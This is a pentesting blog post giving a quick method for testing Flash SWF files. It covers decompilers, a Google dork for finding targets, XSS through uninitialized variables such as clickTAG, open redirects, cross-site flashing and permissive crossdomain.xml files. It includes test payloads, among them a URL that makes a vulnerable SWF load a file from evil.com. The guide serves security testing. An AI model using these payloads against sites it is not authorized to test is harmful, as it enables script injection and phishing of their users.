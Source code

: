 ```yaml
---
layout: post
title: Flash Testing for Dummies
tags: [pentesting]
category: posts
---
```


*or: A Fast Flash Testing Guide for the Busy Pentester*

--

The aim of this "guide" is to provide an up-to-date and easy way to test SWF files, without the assle of learning ActionScript or wasting excessive time, while still getting the relevant low hanging fruits.

*Note - All the techniques presented in this article have been tested and confirmed working in Chrome 23 with Flash 11.5, running on OS X 10.7.5.*

### # Tools of the Trade

The most useful tool is probably [HP SWFScan][swfscan], which provides a decompiler and an automatic vulnerability scanner. While the software is prone to false negatives, it's still the best tool when you need to analyze ActionScript code in a limited time.

If a Windows operating system is not an option or you'd rather dive directly into the code without a fancy GUI, [flare][flare] is what you are looking for. Flare is a simple command-line decompiler, very reliable, but its development came to a halt in 2005.

Other tools that might be useful are [Adobe SWF Investigator][swfinvestigator], which provides a disassembler and other utilities, and [SWFTools][swftools], a collection of several software that, sadly, lacks a decompiler. 

### 1- Search Engine Discovery

In order to find all (most?) the SWF files on your target domain you just need a simple Google dork: `filetype:swf site:TARGET`.

If the amount of files returned by the previous generic search is too much, try reducing it with `inurl:login`, `inurl:admin`, `inurl:secure` or similar.
	
### 2- Information Disclosure

There is literally anything you could find hard-coded inside SWF files: from remote gateways to authentication credentials, from IP addresses to remote resources.

In order to identify all the interesting information inside of a SWF file, you need to decompile (or disassemble) it and review the code manually. Note that while SWFScan sometimes identifies critical data, it just isn't reliable enough to trust exclusively its automatic results.

### 3- Reflected Cross-Site Scripting

The main cause for XSS in Flash files is the use of **uninitialized variables**, which, if not initialized to a value, can be arbitrarily assigned by users. Furthermore, global variables (\_root.\*, \_global.\*, \_level0.\*) and unsafe methods (e.g. getURL, loadVars.\*, XML.load, htmlText, loadVariables, loadMovie, loadMovieNum) need to be taken into account when looking for vulnerable code in Flash files. A sample payload that can be used to test for XSS is `javascript:alert('XSS')`.

	{% raw %}
	button 16 {
		on (release) {
			getURL(clickTAG, '_self');
		}
	}
	{% endraw %}

The *clickTAG* variable in the previous decompiled code is not initialized and will accept any value. Hence, the XSS could be triggered trivially: `http://example.com/home.swf?clickTAG=javascript:alert('XSS')`.

The following are all examples of code vulnerable to XSS.

	{% raw %}
	var __callResult_1 = getURL(_root.clickTag, "_blank");
	var __callResult_2 = getURL(clickTag, "_blank");
	var __callResult_3 = getURL(clickTag, "");
	{% endraw %}

On the other hand, `var __callResult_4 = getURL("http://example.com", "_blank");` is not vulnerable.

### 4- Open Redirect

Uninitialized variables also cause SWFs to be vulnerable to Open Redirects, allowing an attacker to forge a URL that will redirect users to an arbitrary domain.

If you find uninitialized variables in the code or a file that accepts a remote file as parameter (e.g. `http://example.com/supertrooper.swf?band=/abba.asp`), it is probably an open redirector and should be tested accordingly.

##### Recap: How to Test for XSS and Open Redirects

1. Get the SWF file
2. Decompile it
3. Scan the code with SWFScan
4. Review the code checking for variables
5. Test the variables that seem vulnerable (do not trust SWFScan)

### 5- Cross-Site Flashing

Cross-Site Flashing (XSF) occurs when an SWF file is able to load another file from a different domain. The vulnerable SWF can be exploited to load a malicious Flash file that can be used to perform several kinds of attacks, such as Cross-Site Scripting or Phishing via a fake interface. Let's take a look at some code:

	{% raw %}
	internal function frame1(){
   		this.url = "";
   		this.movieurl = "";
   		this.paramObj =
   		LoaderInfo(this.root.loaderInfo).parameters;
   		this.movieurl = String(this.paramObj["movieurl"]);
   		if(this.movieurl != "") {
       		this.LoadMovie(this.movieurl);
   		} else {
       		this.LoadMovie("defaulf.swf");
   		}
		[...] 
		{% highlight actionscript %}
	
As can be seen in the previous code, the *movieurl* variable is not initialized and the *LoadMovie* function accepts any value, even from external domains. So, the vulnerable SWF will load any file: `http://example.com/movie.swf?movieurl=http://evil.com/xss.swf`

### 6- Crossdomain Policy

A SWF file is not allowed to access data that resides outside of its web domain and a sub-domain is not able to read data from a parent domain (and vice-versa). The Flash Player uses cross-domain policy files to give permission to access data from a given domain.

Testing for a vulnerable cross-domain policy is trivial: take a look at the `/crossdomain.xml` file, always found in the website root. If it looks like the following code...

	<cross-domain-policy>
		<allow-access-from domain="*"/>
	</cross-domain-policy>
	
...then the website accepts requests from Flash files from **all** domains and will return the full response.

### # References

Following are the articles and documents used to get most of the information presented in this post, listed chronologically.

* 2006 - [The Dangers of Cross-Domain Ajax with Flash][shiflett1] (by Chris Shiflett)
* 2006 - [The crossdomain.xml Witch Hunt][shiflett2] (by Chris Shiflett)
* 2008 - [Crossdomain.xml Invites Cross-site Mayhem][grossman] (by Jeremiah Grossman)
* 2009 - [Blinded by Flash: Widespread Security Risks Flash Developers Don’t See][prajakta] (by Prajakta Jagdale)
* 2010 - [Neat, New, and Ridiculous Flash Hack][bailey] (by Mike Bailey)
* [OWASP - Testing for Cross Site Flashing][owasp]


[swfscan]: http://h30499.www3.hp.com/t5/Following-the-Wh1t3-Rabbit/SWFScan-FREE-Flash-decompiler/ba-p/5440167
[flare]: http://www.nowrap.de/flare.html
[swfinvestigator]: http://labs.adobe.com/downloads/swfinvestigator.html
[swftools]: http://www.swftools.org/

[prajakta]: http://www.blackhat.com/presentations/bh-dc-09/Jagdale/BlackHat-DC-09-Jagdale-Blinded-by-Flash.pdf
[bailey]: http://www.blackhat.com/presentations/bh-dc-10/Bailey_Mike/BlackHat-DC-2010-Bailey-Neat-New-Ridiculous-flash-hacks-slides.pdf
[shiflett1]: http://shiflett.org/blog/2006/sep/the-dangers-of-cross-domain-ajax-with-flash
[shiflett2]: http://shiflett.org/blog/2006/oct/the-crossdomain.xml-witch-hunt
[grossman]: http://jeremiahgrossman.blogspot.it/2008/05/crossdomainxml-invites-cross-site.html

[owasp]: https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_%28OWASP-DV-004%29
